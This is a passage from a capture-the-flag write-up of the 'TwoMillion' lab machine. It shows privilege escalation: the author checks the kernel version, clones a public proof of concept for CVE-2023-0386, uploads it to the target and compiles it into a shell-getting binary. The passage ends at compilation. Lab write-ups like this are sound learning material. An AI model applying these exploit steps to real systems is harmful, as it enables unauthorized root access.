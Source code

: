 They are talking about patching the OS then i saw kernel version, Box is running Ubuntu 22.04 with the kernel 5.15.70:
```ruby
admin@2million:~$ uname -a
uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
admin@2million:~$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
```

I just googled some poc's online i got this https://github.com/xkaneiki/CVE-2023-0386 by xkaneiki
`README.md` has all information to run this exploit.

```ruby
^^/H/TwoMillion >>> git clone https://github.com/xkaneiki/CVE-2023-0386                                                                                 (255) 12:54:27 
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 7), reused 21 (delta 5), pack-reused 0
Receiving objects: 100% (24/24), 426.11 KiB | 2.02 MiB/s, done.
Resolving deltas: 100% (7/7), done.
```

we have to upload this whole folder to our target.
```ruby
admin@2million:/tmp$ unzip CVE-2023-0386-main.zip 
Archive:  CVE-2023-0386-main.zip
c4c65cefca1365c807c397e953d048506f3de195
   creating: CVE-2023-0386-main/
  inflating: CVE-2023-0386-main/Makefile  
...[snip]...
  inflating: CVE-2023-0386-main/test/mnt.c
```

**Compile**
```ruby
admin@2million:/tmp$ cd CVE-2023-0386-main/
admin@2million:/tmp/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
...[snip]..
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
gcc -o gc getshell.c
```
